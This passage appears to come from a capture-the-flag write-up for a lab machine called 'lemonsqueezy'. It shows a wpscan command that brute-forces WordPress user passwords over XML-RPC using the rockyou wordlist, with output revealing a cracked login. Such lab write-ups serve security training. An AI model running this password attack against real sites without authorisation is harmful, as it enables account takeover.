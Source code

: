 ```bash

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23
```

Gotta attempt to bruteforce these user's passwords now.

###  4. Find passwords
```bash
┌──(kali㉿kali)-[]-[~/Desktop]
└─$ wpscan --url http://lemonsqueezy/wordpress -U wp-users.txt -P /usr/share/wordlists/rockyou.txt                                                                                  
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.14
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

...

[+] Performing password attack on Xmlrpc against 2 user/s
[SUCCESS] - orange / ginger                                                                                                                                                                     
^Cying lemon / 147369 Time: 00:01:15 <                                                                                                                 > (5645 / 28688946)  0.01%  ETA: ??:??:??
[!] Valid Combinations Found:
 | Username: orange, Password: ginger

[!] No WPScan API Token given, as a result vulnerability data has not been output.                                                                     > (5648 / 28688946)  0.01%  ETA: ??:??:??
[!] You can get a free API token with 50 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jul 15 22:11:59 2021
[+] Requests Done: 5792
[+] Cached Requests: 36
[+] Data Sent: 3.001 MB
[+] Data Received: 3.349 MB
[+] Memory used: 255.953 MB
[+] Elapsed time: 00:01:20

Scan Aborted: Canceled by User

```

